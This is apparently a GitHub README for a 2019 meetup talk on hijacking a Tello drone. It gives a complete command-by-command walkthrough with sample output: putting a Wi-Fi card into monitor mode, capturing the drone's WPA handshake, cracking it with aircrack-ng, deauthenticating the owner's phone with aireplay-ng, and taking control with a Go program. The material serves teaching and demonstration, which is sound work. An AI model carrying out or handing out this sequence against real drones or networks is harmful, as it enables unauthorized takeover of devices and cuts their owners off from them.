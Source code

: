 # Girl Geek Dinners Oslo drone hacking demo code
Demo code and presentation for Girl Geek Dinners in Oslo February 4th 2019.

## Preparations

You need:

1. A laptop with Kali Linux
2. A network adapter that supports packet injection
3. A mobile phone with the Tello app

This github repo contains some files that will help you in the demo, but it is not a prerequisite to download it.

In order to program the drone (if you want that, this is optional) you'll need the Go programming language and the Gobot framework (https://gobot.io):

```
git clone https://github.com/transcendent-group/ggd.git
apt install golang
cd ggd
go get -d -u gobot.io/x/gobot/...
```

## Demo walkthrough

### Step 1: Sniff and find the drone’s WiFi network

Begin by listing wireless interfaces that support monitor mode with:

```
airmon-ng
```

If you do not see an interface listed then your wireless card does not support monitor mode.

If it does, make sure that other interfering processes are killed:

`airmon-ng check kill`

You should see output similar to this:

```
root@kali:~/ggd# airmon-ng check kill

Killing these processes:

  PID Name
  868 wpa_supplicant
```

Then list out the wireless interfaces you have with `iwconfig, you should see output similar to this:

```
root@kali:~/ggd# iwconfig
eth0      no wireless extensions.

lo        no wireless extensions.

wlan0     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          Retry short  long limit:2   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:off
```

We will assume your wireless interface name is `wlan0`:

```
airmon-ng start wlan0
```

This may create a new interface that is named something else, so be sure to check with `iwconfig` to use the correct interface name for the rest of the demo.

Then scan the networks:

```
root@kali:~/ggd# airodump-ng wlan0

 CH  3 ][ Elapsed: 1 min ][ 2019-02-03 09:50                                       
                                                                                                                                                             
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                                             
 70:85:C6:9C:BC:3E   -1   0        0        0    0   3  -1                    <length:  0>                                                                   
 D8:FE:E3:DD:5F:8A   -1   0        0        0    0   3  -1                    <length:  0>                                                                   
 60:60:1F:D4:21:28  -18 100      266    29646   47   3  54e. WPA2 CCMP   PSK  TELLO-D42128                                                                   
 80:37:73:BD:B5:42  -80   0        0        1    0   3  -1   WPA              <length:  0>                                                                    
 08:86:3B:B9:53:CA   -1   0        0        0    0   3  -1                    <length:  0>                                                                    
                                                                    
                                                                                                                                                              
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                                                    
                                                                                                                                                                                                                                         
 60:60:1F:D4:21:28  D4:61:9D:EE:49:2F  -32   54e-54e  5993    30022  TELLO-D42128                                                                                              
```

Look for the network called `TELLO-D42128`, and make note of the `BSSID` (the Tello drone wifi access point MAC address), channel number and `STATION` (the controller's MAC address):
 In the above, these are:

* WiFi channel: `3`
* Tello drone MAC address: `60:60:1F:D4:21:28`
* Controller (iPhone) MAC address: `D4:61:9D:EE:49:2F`

### Step 2: Capture a handshake

Stop listening on all channels, and set the right channel:

```
airmon-ng stop wlan0
airmon-ng start wlan0 3
```

Sniff the airwaves for a handshake:

```
airodump-ng -c 3 -b 60:60:1F:D4:21:28 -w ggd wlan0
```

You should see a that a WPA handshake has been captured after a while in the right topmost corner of the terminal window:

```
CH  8 ][ Elapsed: 12 s ][ 2019-02-03 10:03 ][ WPA handshake: 60:60:1F:D4:21:28  
```

### Step 3: Crack the handshake and obtain WiFi password

```
aircrack-ng ggd-01.cap -w passwords.txt
```

### Step 4: Deauthenticate me

Deauthenticate the iPhone controller:

```
aireplay-ng --deauth 0 -a 60:60:1F:D4:21:28 -c D4:61:9D:EE:49:2F wlan0
```

### Step 5: Hijack the drone!

Keep the above command running, and connect to the `TELLO-D42128` network with the password from step 3. Start the Tello app on your phone, and takeoff!

### Step 6 (optional): Connect to the drone from you laptop and do some sweet flips

Open a text editor and insert the correct password in the `wpa_supplicant.conf` file.

Then disable monitor mode, and start wpa_supplicant:

```
airmon-ng stop wlan0
wpa_supplicant -i wlan0 -c wpa_supplicant.conf -D nl80211
```

In another terminal window check that you are connected, and ask for an IP:

```
iwconfig
dhclient wlan0
```

Then compile and run:

```
go build hijack.go
./hijack
```





